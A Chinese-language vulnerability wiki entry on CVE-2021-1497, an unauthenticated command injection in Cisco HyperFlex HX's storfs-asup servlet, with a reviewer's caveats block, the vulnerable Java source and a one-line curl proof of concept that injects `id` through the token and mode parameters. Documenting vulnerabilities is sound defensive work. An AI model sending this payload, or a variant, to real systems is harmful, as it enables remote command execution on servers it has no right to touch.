

# Cisco HyperFlex HX storfs-asup 远程命令执行漏洞 CVE-2021-1497

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Cisco HyperFlex HX storfs-asup Servlet
- 本文讨论：CVE-2021-1497 token/mode shell注入
- 版本、权限与配置前提：action非null即可，token/mode拼bash-c，版本/鉴权过滤器未知
- 资料类型：HyperFlex命令拼接源码；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 无具体HX版本/修复和官方源码出处，简介多漏洞未拆编号
- stdout重定向/dev/null且代码仅捕获err，id命令结果如何回显需结合图解释
- 应归超融合服务平台而非IoT硬件

### 操作风险与恢复

- 执行文中载荷可能以目标进程权限启动命令或加载代码；权限受认证角色、操作系统账户及依赖版本约束，不能把 root/200 等通用字符串当成功证据

### 待核与来源

- 过滤器认证、官方影响范围和图中响应待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

思科在研究人员Nikita Abramov和Mikhail Klyuchnikov发现的HyperFlex HX数据平台中修复了两个Unauth RCE和一个任意文件上载

## 漏洞影响

```
Cisco HyperFlex HX
```

## 漏洞复现

出现漏洞的代码

```java
 protected void processRequest(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
    String action = request.getParameter("action");
    if (action == null) {
      String msg = "Action for the servlet need be specified.";
      writeErrorResponse(response, msg);
      return;
    }
    try {
      String token = request.getParameter("token");
      StringBuilder cmd = new StringBuilder();
      cmd.append("exec /bin/storfs-asup ");
      cmd.append(token);
      String mode = request.getParameter("mode");
      cmd.append("  ");
      cmd.append(mode);
      cmd.append("  > /dev/null");
      logger.info("storfs-asup cmd to run : " + cmd);
      ProcessBuilder pb = new ProcessBuilder(new String[] { "/bin/bash", "-c", cmd.toString() });
      logger.info("Starting the storfs-asup now: ");
      long startTime = System.currentTimeMillis();
      Process p = pb.start();
      InputStream errStream = p.getErrorStream();
      String errMsg = FileUtils.readToString(errStream);
      int exitCode = p.waitFor();
      long timeTaken = System.currentTimeMillis() - startTime;
      logger.info("storfs-asup command completed in (" + timeTaken + " ) milliseconds, with exit code (" + exitCode + ") and error message: " + errMsg);
      errStream.close();
      OutputStream outStream = p.getOutputStream();
      outStream.flush();
      outStream.close();
      if (exitCode != 0)
        throw new Exception(errMsg);
    } catch (IOException ex) {
      logger.error("Failed to generate asup: " + ex);
    } catch (Exception ie) {
      logger.error("Failed to run the /bin/storfs-asup command.");
    } finally {
      logger.info("Done executing asup command. ");
    }
  }
```

POC为

```plain
curl -v http://xxx.xxx.xxx.xxx/storfs-asup -d 'action=&token=`id`&mode=`id`'
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
